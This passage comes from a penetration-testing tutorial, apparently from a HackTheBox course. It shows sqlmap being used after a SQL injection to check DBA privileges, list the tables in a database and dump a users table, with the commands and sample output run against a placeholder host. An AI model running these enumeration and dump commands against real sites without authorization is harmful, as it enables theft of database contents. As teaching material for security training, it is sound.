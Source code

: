 ```shell-session
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/
```

From the above example, we can see that the database version is quite old (MySQL 5.1.41 - from November 2009), and the current user name isÂ `root`, while the current database name isÂ `testdb`.

Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

---

## Table Enumeration

In most common scenarios, after finding the current database name (i.e.Â `testdb`), the retrieval of table names would be by using theÂ `--tables`Â option and specifying the DB name withÂ `-D testdb`, is as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

After spotting the table name of interest, retrieval of its content can be done by using theÂ `--dump`Â option and specifying the table name withÂ `-T users`, as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
```
